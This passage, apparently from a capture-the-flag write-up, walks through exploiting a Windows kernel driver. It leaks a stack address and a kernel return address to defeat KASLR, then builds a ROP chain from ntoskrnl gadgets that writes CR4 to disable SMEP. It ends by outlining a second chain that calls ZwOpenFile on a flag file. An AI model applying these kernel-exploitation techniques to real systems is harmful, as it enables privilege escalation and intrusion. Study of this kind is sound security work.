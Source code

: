 So here it is - a pointer to `CryptoBuffer+0x4c0` at offset  
`CryptoBuffer+0x158` - hooray, we can have the stack address now as well!
Since  
each thread has a fixed kernel stack, we can be sure that the value obtained  
this way will persist across multiple `DeviceIoControl` calls.

Let's check out the mysterious kernel return address:

```  
(gdb) x/a $rsp+0x30  
0xfffff68e9e369818:     0xfffff80358a31f39  
(gdb) x/2i 0xfffff80358a31f39  
  0xfffff80358a31f39:   add    $0x38,%rsp  
  0xfffff80358a31f3d:   retq  
(gdb) x/8bx 0xfffff80358a31f39  
0xfffff80358a31f39:     0x48    0x83    0xc4    0x38    0xc3    0x0f    0xb6
0x40  
```

This byte sequence is something we can look up in `ntoskrnl.exe`:

```  
.text:0000000140031EE0 IofCallDriver   proc near  
...  
.text:0000000140031F39                 add     rsp, 38h  
.text:0000000140031F3D                 retn  
```

Looks plausible - we can declare victory on KASLR now. How can we exploit? Now  
that we know xor key, rsp and security cookie value, we can jump anywhere, but  
where to?

First attempt: create a ROP chain to disable [SMEP](  
https://en.wikipedia.org/wiki/Control_register#SMEP  
) and then jump to userspace executable shellcode buffer. `ntoskrnl.exe` is a  
trove of ROP gadgets of all shapes and sizes, and [ROPgadget](  
https://github.com/JonathanSalwan/ROPgadget  
) can gives us all of them!

```  
Buf[pos++] = (KernelBase + 0x14001FC39 - 0x140001000);  /* pop rcx ; ret */  
Buf[pos++] = 0x406f8;                                   /* cr4 value */  
Buf[pos++] = (KernelBase + 0x14017ae47 - 0x140001000);  /* mov cr4, rcx ; ret
*/  
```

What was [`KERNEL_SECURITY_CHECK_FAILURE`](  
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check
---bug-check-0x139-kernel-security-check-failure  
) again? Apparently in the meantime PatchGuard has been trained to detect CR4  
modifications. Tough luck.

Attempt 2: use ROP chain to call [`ZwOpenFile`](  
https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/content/wdm/nf-
wdm-zwopenfile  
) in order to create a userspace handle for `c:\flag.txt` and then, since we  
have messed the kernel stack up beyond repair, don't even think about
returning  
to userspace, but rather park the thread in an endless loop - thanks to kernel  
preemption the system remains operational. We can forge `ZwOpenFile` arguments  
on the stack next to the ROP chain.
